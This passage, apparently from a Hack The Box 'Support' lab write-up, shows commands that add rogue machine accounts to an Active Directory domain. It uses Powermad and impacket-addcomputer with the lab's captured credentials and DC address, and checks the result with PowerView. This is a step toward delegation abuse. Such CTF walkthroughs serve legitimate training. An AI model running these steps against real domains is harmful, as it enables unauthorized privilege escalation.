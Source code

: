 - so we can import powermad in the target to add a new user account

```shell
import-module powermad
New-MachineAccount -MachineAccount GR4Y -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](assets/Support_assets/Pasted%20image%2020231116182844.png)

- we can check if this machine account has been created using Poweview

```shell
. .\PowerView.ps1
Get-DomainComputer GR4Y
```

![](assets/Support_assets/Pasted%20image%2020231116183046.png)

- Or we can create a new computer using the `impacket-addcomputer` script

```shell
impacket-addcomputer 'support.htb/support:Ironside47pleasure40Watchful' -computer-name 'GR4YPC' -computer-pass 'Passw0rd' -dc-ip 10.10.11.174 -computer-group 'CN=Shared Support Accounts,CN=UsersDC=support,DC=htb'
```

![](assets/Support_assets/Pasted%20image%2020231116193308.png)
